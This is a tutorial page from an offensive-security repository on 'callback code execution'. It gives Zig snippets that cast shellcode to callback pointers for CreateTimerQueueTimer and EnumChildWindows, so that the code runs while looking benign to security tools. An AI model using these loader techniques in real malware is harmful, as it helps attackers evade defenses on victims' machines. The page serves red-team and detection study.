

repository: CX330Blake/Black-Hat-Zig · page: Advanced-Malware-Techniques/Others/Callback-Code-Execution/callback_code_execution/index.html · generator: mkdocs

# Callback Code Execution

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Techniques/Callback-Code-Execution)

Callback code execution is a technique that leverages Windows API functions that accept callback function pointers to execute shellcode. Instead of using traditional methods like CreateThread or VirtualAlloc, this approach casts shellcode as a legitimate callback function, making it appear more benign to security solutions.

## What Is Callback Function

A callback function is a function passed as an argument to another function, which is then invoked at a specific point during the execution of that function. In Windows, many APIs accept callback functions to handle events, enumerate resources, or perform asynchronous operations.

The key insight for malware development is that these callback functions are executed in the same process context with the same privileges, making them perfect vehicles for shellcode execution. By casting shellcode as a callback function pointer, we can trick legitimate Windows APIs into executing our malicious code.

## Common Callback Functions

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a timer-queue timer that executes a callback function when the timer expires. This is one of the most reliable callback execution techniques.

```zig
extern "kernel32" fn CreateTimerQueueTimer(
    phNewTimer: *?windows.HANDLE,
    TimerQueue: ?windows.HANDLE,
    Callback: WAITORTIMERCALLBACK,
    Parameter: ?*anyopaque,
    DueTime: windows.DWORD,
    Period: windows.DWORD,
    Flags: windows.ULONG,
) callconv(WINAPI) windows.BOOL;

const WAITORTIMERCALLBACK = *const fn (?*anyopaque, windows.BOOL) callconv(WINAPI) void;

// Cast the payload address to the callback function type
const callback = @as(WAITORTIMERCALLBACK, @ptrCast(&payload));

if (CreateTimerQueueTimer(
    &hTimer,
    null, // TimerQueue - use default queue
    callback, // Callback - our shellcode
    null, // Parameter
    0, // DueTime - execute immediately
    0, // Period - execute once
    0, // Flags
) == 0) {
    print("[!] CreateTimerQueueTimer Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumChildWindows

`EnumChildWindows` enumerates child windows and calls a callback function for each window found. When passed a `NULL` parent window, it enumerates all top-level windows.

```zig
extern "user32" fn EnumChildWindows(
    hWndParent: ?HWND,
    lpEnumFunc: WNDENUMPROC,
    lParam: LPARAM,
) callconv(WINAPI) windows.BOOL;

const WNDENUMPROC = *const fn (HWND, LPARAM) callconv(WINAPI) windows.BOOL;

// Cast the payload address to the callback function type
const callback = @as(WNDENUMPROC, @ptrCast(&payload));

if (EnumChildWindows(null, // NULL parent enumerates all top-level windows
    callback, // Our payload
    0 // NULL lParam
) == 0) {
    print("[!] EnumChildWindows Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```
